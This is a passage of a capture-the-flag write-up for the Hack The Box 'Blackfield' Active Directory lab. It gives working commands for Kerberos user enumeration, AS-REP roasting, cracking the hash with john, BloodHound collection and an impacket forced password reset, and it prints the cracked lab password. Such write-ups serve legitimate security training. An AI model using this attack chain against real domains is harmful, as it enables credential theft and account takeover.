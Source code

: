 We've only access to profiles, and upon viewing, we get around 300 users. 

![Image](/assets/Screenshot 2024-09-20 at 11.57.12 AM.png)

We can save the names to `users.txt`, and clean this up for a file to feed into `kerbrute`. 

`cat users.txt | awk '{print $1}' > user.txt`

### Initial Access

`./kerbrute_linux_arm64 userenum -d blackfield.local --dc 10.10.10.192 /home/li0t/Desktop/HTB/Blackfield/user.txt` 
 
![Image](/assets/Screenshot 2024-09-18 at 9.28.09 AM.png)

We can see that we've got three hits, `audit2020`, `support`, and  `svc_backup`. I want to iterate that the hashes (at least in my setup) are often always erroneous when dumped by `kerbrute`. We'll need to use `impacket` to certify which users have TGTs and what the values are should they have them.

`python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/support`

Through trial and error, `support` is the only account that's valid! Now, we can copy the hash into a file and let `john` try and crack the password for us. Make sure that there are no new line characters or gaps at the end! (I know there's a way to denote this in a parameter while configuring the hash file... I'll find it later.)

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

![Image](/assets/Screenshot 2024-09-18 at 9.34.22 AM.png)

We've cracked the password: `#00^BlackKnight`

Now, as I always note, it's important to restart the enumeration process now that we have credentials. We'll start with looking again at the SMB shares. `smbmap` seems to work now.

`smbmap -H 10.10.10.192 -u "support" -p "#00^BlackKnight"`

There's nothing crazy here, just password policy information, which doesn't hurt to have. This let me know that with a minimum length of `7`, brute forcing a password without a hash is probably not going to happen. Let's turn to other methods to continue enumeration.

Because we don't have a shell, and we don't have access to system info, we can try the  `python-bloodhound` ingester to further enumerate.

`bloodhound-python -d blackfield.local -u support -p "#00^BlackKnight" -ns 10.10.10.192 -c all`

We can take a look at all of these relationships, but it's very crucial to check all of the queries pertaining to the account we've compromised. In doing so, we figure out that we can change the password for user `audit2020`

![Image](/assets/Screenshot 2024-09-18 at 9.57.27 AM.png)

To do this, we can  use `impacket` with the `changepasswd` script.

`python3 changepasswd.py -altuser support -altpass "#00^BlackKnight" blackfield.local/audit2020@10.10.10.192 -reset`
